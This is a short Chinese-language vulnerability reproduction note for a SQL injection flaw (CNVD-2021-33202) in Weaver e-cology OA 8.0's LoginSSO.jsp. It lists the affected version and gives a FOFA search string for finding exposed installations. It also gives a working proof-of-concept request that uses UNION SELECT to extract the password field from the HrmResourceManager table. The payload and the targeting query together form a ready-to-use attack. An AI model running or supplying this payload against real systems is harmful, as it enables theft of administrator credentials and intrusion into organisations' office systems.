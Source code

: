 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](./images/202205201339405.png)

验证POC

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![image-20220520134011931](./images/202205201340985.png)